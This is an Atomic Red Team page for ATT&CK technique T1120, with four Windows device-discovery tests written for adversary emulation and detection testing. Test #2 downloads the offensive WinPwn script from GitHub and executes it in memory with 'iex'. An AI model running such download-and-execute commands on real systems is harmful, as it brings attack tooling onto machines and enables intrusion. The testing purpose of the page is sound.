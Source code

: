 # T1120 - Peripheral Device Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1120)
<blockquote>

Adversaries may attempt to gather information about attached peripheral devices and components connected to a computer system.(Citation: Peripheral Discovery Linux)(Citation: Peripheral Discovery macOS) Peripheral devices could include auxiliary resources that support a variety of functionalities such as keyboards, printers, cameras, smart card readers, or removable storage. The information may be used to enhance their awareness of the system and network environment or may be used for further actions.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Win32_PnPEntity Hardware Inventory](#atomic-test-1---win32_pnpentity-hardware-inventory)

- [Atomic Test #2 - WinPwn - printercheck](#atomic-test-2---winpwn---printercheck)

- [Atomic Test #3 - Peripheral Device Discovery via fsutil](#atomic-test-3---peripheral-device-discovery-via-fsutil)

- [Atomic Test #4 - Get Printer Device List via PowerShell Command](#atomic-test-4---get-printer-device-list-via-powershell-command)


<br/>

## Atomic Test #1 - Win32_PnPEntity Hardware Inventory
Perform peripheral device discovery using Get-WMIObject Win32_PnPEntity

**Supported Platforms:** Windows


**auto_generated_guid:** 2cb4dbf2-2dca-4597-8678-4d39d207a3a5






#### Attack Commands: Run with `powershell`! 


```powershell
Get-WMIObject Win32_PnPEntity | Format-Table Name, Description, Manufacturer > $env:TEMP\T1120_collection.txt
$Space,$Heading,$Break,$Data = Get-Content $env:TEMP\T1120_collection.txt
@($Heading; $Break; $Data |Sort-Object -Unique) | ? {$_.trim() -ne "" } |Set-Content $env:TEMP\T1120_collection.txt
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\T1120_collection.txt -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - WinPwn - printercheck
Search for printers / potential vulns using printercheck function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** cb6e76ca-861e-4a7f-be08-564caa3e6f75






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
printercheck -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #3 - Peripheral Device Discovery via fsutil
Performs pheripheral device discovery utilizing fsutil to list all drives.

**Supported Platforms:** Windows


**auto_generated_guid:** 424e18fd-48b8-4201-8d3a-bf591523a686






#### Attack Commands: Run with `command_prompt`! 


```cmd
fsutil fsinfo drives
```






<br/>
<br/>

## Atomic Test #4 - Get Printer Device List via PowerShell Command
This test uses PowerShell to list printers on a Windows system, demonstrating a discovery technique attackers might use to 
gather details on connected devices. Using Get-Printer, they can view information on all available printers, identifying 
potential devices for further targeting.

**Supported Platforms:** Windows


**auto_generated_guid:** 5c876daf-db1e-41cf-988d-139a7443ccd4






#### Attack Commands: Run with `powershell`! 


```powershell
Get-Printer
```






<br/>
